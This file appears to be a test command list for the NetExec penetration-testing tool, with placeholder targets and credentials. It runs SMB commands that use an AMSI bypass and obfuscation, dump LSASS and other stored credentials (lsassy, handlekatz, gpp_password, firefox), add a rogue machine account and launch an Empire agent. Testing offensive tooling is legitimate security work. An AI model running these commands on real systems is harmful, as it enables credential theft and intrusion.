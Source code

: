 netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --no-encode
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --no-encode
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --obfs --no-encode
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --no-encode
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode --exec-method atexec
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode --exec-method smbexec
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -X ipconfig --force-ps32 --obfs --amsi-bypass AMSI_BYPASS_FILE --no-encode --exec-method mmcexec
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --clear-obfscripts # current we don't really use?
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --wmi "select Name from win32_computersystem"
netexec --jitter 2 smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS
netexec --jitter 1-3 smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS
netexec --jitter 2-2 smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS
##### SMB Modules
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -L
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M add-computer -o NAME="BADPC" PASSWORD="Password1"
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M add-computer -o NAME="BADPC" PASSWORD="Password2" CHANGEPW=True
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M add-computer -o NAME="BADPC" DELETE=True
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M drop-sc
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M drop-sc -o CLEANUP=True
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M empire_exec -o LISTENER=http-listener
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M empire_exec -o LISTENER=http-listener OBFUSCATE=True
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M enum_av
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M enum_dns
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M enum_dns -o DOMAIN=google.com
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M firefox
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M get_netconnections
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M gpp_autologin
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M gpp_password
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M handlekatz
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M handlekatz -o HANDLEKATZ_EXE_NAME="hk.exe"
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M hash_spider
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M impersonate
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M iis
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M install_elevated
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M ioxidresolver
# currently hanging indefinitely - TODO: look into this
#netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M keepass_discover
#netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M keepass_trigger -o ACTION=ALL USER=LOGIN_USERNAME KEEPASS_CONFIG_PATH="C:\\Users\\LOGIN_USERNAME\\AppData\\Roaming\\KeePass\\KeePass.config.xml"
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M lsassy
# You must replace this with the proper CA information!